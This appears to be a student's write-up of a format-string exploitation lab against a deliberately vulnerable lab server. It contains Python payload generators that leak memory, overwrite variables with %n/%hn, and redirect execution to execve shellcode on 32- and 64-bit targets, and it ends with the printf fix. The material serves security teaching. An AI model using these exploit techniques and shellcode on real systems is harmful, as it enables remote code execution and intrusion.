









# Format String

## Task 1: Crashing the Program

`input`:

```
%s%s%s%s%n
```

```shell
$ cat input | nc 10.9.0.5 9090
```

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data.

由程序输出，可以知道buf数组的地址是0xffffd6a0，myprintf的ebp为0xffffd5c8。0xffffd6a0-0xffffd5c8=216，216/4=54。从54个%x开始尝试，增加%x的个数直到能输出buf的内容。

```python
>>> print ("%x "*64)
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
```



注意到25207825对应的是`%x %`的ASCII编码。

### Task 2.B: Heap Data

`geninput.py`

```python
#!/usr/bin/python3
import sys
 
# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))
 
# This line shows how to store an integer at offset 0
secret_addr = 0x080b4008
content[0:4] = secret_addr.to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode("latin-1")
 
# This line shows how to construct a string s with
# 12 of "%.8x", concatenated with a "%s"
s = "%.8x"*63 + "%s"
 
# The line shows how to store the string s at offset 8
fmt = (s).encode("latin-1")
content[8:8+len(fmt)] = fmt
 
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```



## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value.

```python
#!/usr/bin/python3
import sys
 
# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))
 
# This line shows how to store an integer at offset 0
target_addr = 0x080e5068
content[0:4] = target_addr.to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode("latin-1")
 
# This line shows how to construct a string s with
# 12 of "%.8x", concatenated with a "%s"
s = "%.8x"*63 + "%n"
 
# The line shows how to store the string s at offset 8
fmt = (s).encode("latin-1")
content[8:8+len(fmt)] = fmt
 
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```



### Task 3.B: Change the value to 0x5000

上一步将值设为0x200，还剩余0x5000-0x200=19968，加上原来的8个字符，共19976个。

```python
[...]
s = "%.8x"*62 + "%.19976x" + "%n"
[...]
```




### Task 3.C: Change the value to 0xAABBCCDD

0xAABB=43707, 0xCCDD=52445, 0xAABB - 12（content前面有12字节的数据） - 8 * 62 =43199,

0xCCDD - 0xAABB = 52445-43707 = 8738

```python
#!/usr/bin/python3
import sys
 
# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))
 
# This line shows how to store an integer at offset 0
target_addr = 0x080e506a
content[0:4] = target_addr.to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode("latin-1")

content[8:12] = (target_addr - 2).to_bytes(4, byteorder='little')
 
# This line shows how to construct a string s with
# 12 of "%.8x", concatenated with a "%s"
s = "%.8x"*62 + "%.43199x" + "%hn" + "%.8738x" + "%hn"

# The line shows how to store the string s at offset 8
fmt = (s).encode("latin-1")
content[12:12+len(fmt)] = fmt
 
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```




## Task 4: Inject Malicious Code into the Server Program

### Understanding the Stack Layout



* Question 1: What are the memory addresses at the locations marked by (2) and (3)?

* Question 2: How many %x format specifiers do we need to move the format string argument pointer
  to (3)? Remember, the argument pointer starts from the location above (1).

Answer:

* Answer 1: 

  从 server的运行结果中可以看出buf的地址为 0xffffcc20, 即为(3)的地址。 根据运行结果，myprintf中ebp值为0xffffcb48, (2)的地址为ebp+0x4 = 0xffffcb48 + 0x4 = 0xffffcb4b 。

* Answer 2:

  (1)的地址可以通过调试输出，也可通过汇编代码输出。根据Task2，输出63个%x可以移动到(3)的位置。

### Your Task

Payload = 地址 + 格式化串 + shellcode

查看内存地址：

```
server-10.9.0.5 | The input buffer's address:    0xffffd590
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd4b8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | 
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)

```


首先需要知道myprintf的返回地址。buf的地址为0xffffd590，加上12和len(fmt)为shellcode开始的位置，即0xffffd6aa。存放返回地址的地址是ebp+4即0xffffd4b8 + 0x4。

为了加快攻击速度，先向低地址处写入0xd6aa，再向高地址处写入0xffff。

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

############################################################
#
#    Construct the format string here
# 
############################################################
target_addr = 0xffffd4b8 + 0x4 # ebp+4
content[0:4] = target_addr.to_bytes(4, byteorder='little')
content[4:8] = ("abcd").encode("latin-1")
content[8:12] = (target_addr + 2).to_bytes(4, byteorder='little')

# 0xffffd590 + 12 + len(fmt) (270) = 0xffffd6aa

s = "%.8x"*62 + "%.54446x" + "%hn" + "%.10581x" + "%hn"
fmt = (s).encode("latin-1")
content[12:12+len(fmt)] = fmt

# Put the shellcode somewhere in the payload
start = 12+len(fmt)        # Change this number
content[start:start + len(shellcode)] = shellcode

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)

```



## Task 5: Attacking the 64-bit Server Program

```
server-10.9.0.6 | Got a connection from 10.9.0.1
server-10.9.0.6 | Starting format
server-10.9.0.6 | The input buffer's address:    0x00007fffffffe2d0
server-10.9.0.6 | The secret message's address:  0x0000555555556008
server-10.9.0.6 | The target variable's address: 0x0000555555558010
server-10.9.0.6 | Waiting for user input ......
server-10.9.0.6 | Received 6 bytes.
server-10.9.0.6 | Frame Pointer (inside myprintf):      0x00007fffffffe210
server-10.9.0.6 | The target variable's value (before): 0x1122334455667788
server-10.9.0.6 | hello
server-10.9.0.6 | The target variable's value (after):  0x1122334455667788
server-10.9.0.6 | (^_^)(^_^)  Returned properly (^_^)(^_^)


```

x64与x32的最大区别在于，x64地址最高位不可避免地会出现0字节。因此，可以将地址放在payload的末尾。

payload的结构为：fmt+padding+shellcode+padding+返回地址

为了简便地移动`printf`的指针，可以使用`%pos$hn`，`pos`的位置可以用试错法得到：`%pos$p`（`%p`用于打印64位长度的地址）。

另外，由于x64架构的地址有8位，打印出来的frame pointer指向的地址+8才为返回地址。

首先尝试修改target_variable的值为`0x00007fffffffe310`

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode
shellcode_32 = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBB"   # Placeholder for argv[1] --> "-c"
    "CCCC"   # Placeholder for argv[2] --> the command string
    "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode
shellcode_64 = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
    "CCCCCCCC"   # Placeholder for argv[2] --> the command string
    "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

############################################################
#
#    Construct the format string here
#
############################################################
target_addr = 0x0000555555558010

# Put addresses in the end of payload
addrs_start = 0x400
content[addrs_start + 0: addrs_start +
        8] = (target_addr + 6).to_bytes(8, byteorder='little')
content[addrs_start + 8: addrs_start + 16] = ("abcdefgh").encode("latin-1")
content[addrs_start + 16: addrs_start +
        24] = (target_addr+4).to_bytes(8, byteorder='little')
content[addrs_start + 24: addrs_start + 32] = ("abcdefgh").encode("latin-1")
content[addrs_start + 32: addrs_start +
        40] = (target_addr).to_bytes(8, byteorder='little')
content[addrs_start + 40: addrs_start + 48] = ("abcdefgh").encode("latin-1")
content[addrs_start + 48: addrs_start +
        56] = (target_addr + 2).to_bytes(8, byteorder='little')  # 0x0000

len1 = 0x7FFF
len2 = 0xE310 - 0x7FFF
len3 = 0xFFFF - 0xE310
s = "%162$hn" + f"%.{len1}x" + "%164$hn" + f"%.{len2}x" + "%166$hn" + f"%.{len3}x" + "%168$hn"
fmt = (s).encode("latin-1")
content[0:len(fmt)] = fmt

# Put the shellcode somewhere in the payload
shell_code_start = 0x40
content[shell_code_start:shell_code_start + len(shellcode)] = shellcode


# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(content)

```




在此基础上，修改返回地址，运行shell code。

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode
shellcode_32 = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBB"   # Placeholder for argv[1] --> "-c"
    "CCCC"   # Placeholder for argv[2] --> the command string
    "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode
shellcode_64 = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo '===== Success! ======'                  *"
    "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
    "CCCCCCCC"   # Placeholder for argv[2] --> the command string
    "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

############################################################
#
#    Construct the format string here
#
############################################################
target_addr = 0x00007fffffffe210 + 0x8  # rbp+8
#shell_code_addr = 0x00007fffffffe2d0 + 0x40  # addr of shell code
# = 0x 0000 7FFF FFFF E310

# Put addresses in the end of payload
addrs_start = 0x400
content[addrs_start + 0: addrs_start +
        8] = (target_addr + 6).to_bytes(8, byteorder='little')
content[addrs_start + 8: addrs_start + 16] = ("abcdefgh").encode("latin-1")
content[addrs_start + 16: addrs_start +
        24] = (target_addr + 4).to_bytes(8, byteorder='little')
content[addrs_start + 24: addrs_start + 32] = ("abcdefgh").encode("latin-1")
content[addrs_start + 32: addrs_start +
        40] = (target_addr).to_bytes(8, byteorder='little')
content[addrs_start + 40: addrs_start + 48] = ("abcdefgh").encode("latin-1")
content[addrs_start + 48: addrs_start +
        56] = (target_addr + 2).to_bytes(8, byteorder='little')  # 0x0000

len1 = 0x7FFF
len2 = 0xE310 - 0x7FFF
len3 = 0xFFFF - 0xE310
s = "%162$hn" + f"%.{len1}x" + "%164$hn" + f"%.{len2}x" + "%166$hn" + f"%.{len3}x" + "%168$hn"
fmt = (s).encode("latin-1")
content[0:len(fmt)] = fmt

# Put the shellcode somewhere in the payload
shell_code_start = 0x40
content[shell_code_start:shell_code_start + len(shellcode)] = shellcode


# Save the format string to file
with open('badfile', 'wb') as f:
    f.write(content)

```




## Task 6: Fixing the Problem

将`printf(msg)`改为`printf("%s", msg)`即可。

